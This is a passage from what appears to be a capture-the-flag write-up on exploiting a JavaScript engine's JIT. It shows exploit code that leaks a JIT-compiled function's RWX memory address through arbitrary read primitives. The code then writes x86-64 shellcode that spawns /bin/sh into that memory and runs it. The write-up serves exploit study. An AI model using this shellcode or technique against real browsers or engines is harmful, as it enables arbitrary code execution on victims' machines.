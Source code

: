 ```javascript
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    for (var i = 0; i < 1000; i++) {
        target(i);
    }
    return target;
}
//
// /*
// 0x7fffb34f1660+0x18 —▸ 0x7fffb34e5e80+0x8 —▸ 0x7ffff382b000+0x20 —▸ 0x7fffb38001dc [anon_7fffb37ff]
// */
func = makeJITCompiledFunction()
// # +0x18, +0x8, +0x10,
addrFunc = b_addrof(func) + 0x18
print("Now I am going to read from: " + hex(addrFunc))
read_val = f2i(readmem(i2f(addrFunc)))
print("And I read: " + hex(read_val))

print("Now I am going to read from: " + hex(read_val + 0x8))
read_val = f2i(readmem(i2f(read_val + 0x8)))
print("And I read: " + hex(read_val))

print("Now I am going to read from: " + hex(read_val + 0x20))
rwx = f2i(readmem(i2f(read_val + 0x20)))
print("[***] leaked RWX: " + hex(rwx))

shell_code = "jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05\xcc"

for (var i = 0; i<(8*6)+1; i++){
    write64(i2f(rwx+i), i2f(ord(shell_code[i])+0x10000))
}

print("GG Chall Done")
func()
```


## Primary ressources

[1] http://phrack.org/issues/70/3.html \
[2] https://liveoverflow.com/setup-and-debug-javascriptcore-webkit-browser-0x01/ 

